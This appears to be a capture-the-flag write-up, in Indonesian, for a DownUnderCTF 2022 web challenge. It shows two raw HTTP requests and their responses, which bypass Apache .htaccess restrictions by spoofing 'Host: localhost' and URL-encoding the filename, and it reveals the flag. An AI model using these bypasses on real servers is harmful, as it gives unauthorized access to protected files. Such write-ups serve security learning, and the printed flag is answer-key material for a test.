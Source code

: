 # babyp(y)wn
![](Pasted%20image%2020220925192012.png)

# helicoptering

Membypass rule .htaccess
- bypass pertama menggunakan Host: localhost
req:

```http
GET /one/flag.txt HTTP/1.1
Host: localhost
Connection: close
```

res:

```http
HTTP/1.1 200 OK
Date: Fri, 23 Sep 2022 09:44:46 GMT
Server: Apache/2.4.54 (Unix)
Last-Modified: Tue, 20 Sep 2022 12:48:21 GMT
ETag: "f-5e91b3e3b0f40"
Accept-Ranges: bytes
Content-Length: 15
Connection: close
Content-Type: text/plain

DUCTF{thats_it_
```

- Bypass kedua menggunakan fl%61g.txt (url encoding)

req:

```http
GET /two/fl%61g.txt HTTP/1.1
Host: localhost
Connection: close
```

res:

```http
HTTP/1.1 200 OK
Date: Fri, 23 Sep 2022 09:47:39 GMT
Server: Apache/2.4.54 (Unix)
Last-Modified: Tue, 20 Sep 2022 12:48:21 GMT
ETag: "19-5e91b3e3b0f40"
Accept-Ranges: bytes
Content-Length: 25
Connection: close
Content-Type: text/plain

next_time_im_using_nginx}
```
